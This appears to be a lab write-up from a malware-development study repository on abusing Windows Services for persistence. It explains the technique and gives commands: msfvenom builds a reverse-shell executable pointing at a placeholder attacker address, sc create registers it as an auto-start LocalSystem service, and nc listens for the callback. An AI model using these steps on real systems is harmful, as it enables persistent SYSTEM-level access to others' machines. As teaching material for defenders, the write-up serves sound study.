






# Info
`Windows 11 VM` is used in this case.

## The Role of Windows Services in Facilitating Hacking Activities
Windows Services are integral to the functioning of the Windows operating system, but they can also be exploited by attackers due to several characteristics that make them valuable targets for hacking activities.

## Network Functionality and Remote Operation
One of the key aspects of Windows Services is their ability to operate seamlessly over network connections. The Services API was specifically designed to support network functionality, allowing services to interact efficiently with remote systems. This capability makes services an attractive target for attackers who seek to execute malicious code remotely. By exploiting vulnerabilities in network-exposed services, attackers can gain access to a system and execute commands with the same privileges as the service.

## Automatic Startup and High Privileges
Windows Services typically start automatically when the system boots, which is a significant advantage for attackers seeking persistence. Once a malicious service is installed, it will continue to run every time the system is restarted, ensuring the attacker maintains access (Microsoft Docs, 2023). Additionally, many services run with elevated privileges, often with System or Administrator-level rights. This means that any code executed by a compromised service can have unrestricted access to the system, including the ability to modify critical files, change system settings, and create or delete user accounts.

## Privilege Management and Access Control
Managing Windows Services requires elevated privileges, which restricts unprivileged users from making changes or creating new services. However, this security measure does not entirely prevent exploitation. Attackers who manage to gain administrator access can create or modify services to achieve persistence or escalate privileges (Microsoft Docs, 2023). The requirement for administrator credentials to create a new service makes it less of a stealthy method for achieving persistence compared to other techniques, but it remains a powerful tool in the hands of an attacker with sufficient access.

## Misconfiguration Risks
Incorrectly configured services can pose significant security risks. Misconfigurations may lead to privilege escalation, where an attacker exploits a service running with elevated privileges to gain higher access rights than initially intended. Moreover, services can be configured or exploited to serve as a persistent backdoor into the system, allowing attackers to maintain their foothold even after system reboots or user logouts (SANS Institute, 2023). Given that this aspect of Windows Services has remained largely unchanged for over two decades, it continues to be a relevant attack vector in modern cyber threats.


---

# Step 1. Reverse Shell
Create a reverse shell with the command below. <br>
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4445 -f exe > meow.exe
```


```bash
x86_64-w64-mingw32-g++ -O2 meowsrv02.c -o meowsrv.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

# Step 2.

```bash
sc create MeowService binpath= "C:\\Users\\<USER_NAME>\\Documents\\Mal\\ch3\\005\\meowsrv.exe" start= auto
```

```bash
sc query MeowService
```


Check the `MeowService` in `System Informer`. <br>


Check the properties. <br>


## LocalSystem Account
The **LocalSystem** account is a preconfigured local account used by the Service Control Manager in Windows. It has extensive privileges on the local computer, enabling it to act as the system's representative within the network. The security token for this account includes the **security identifiers (SIDs)** `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators`, which provide it with privileged access to most system objects. The account is universally recognized across all locales under the name `.\LocalSystem`. Alternatively, it can be referred to as **LocalSystem** or **"Computer Name"\LocalSystem**. Notably, the LocalSystem account does not require a password.

```bash
sc start MeowService
```


Now

```bash
nc -nlvp 4445
```



---

# References
- Zhassulan Zhussupov (2024) Chapter 3 - Malware Persistence Mechanisms , [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers). Available from: https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers [Accessed 09 August 2024].

- Microsoft Docs (2023a) Services Overview. Available from: https://learn.microsoft.com/en-us/windows/win32/services/services [Accessed 9 August 2024].

- Microsoft Docs (2023b) Managing Services with Service Control Manager. Available from: https://learn.microsoft.com/en-us/windows/win32/services/service-control-manager [Accessed 9 August 2024].

- SANS Institute (2023) Windows Privilege Escalation Fundamentals. Available from: https://www.sans.org/white-papers/windows-privilege-escalation-fundamentals/ [Accessed 9 August 2024].
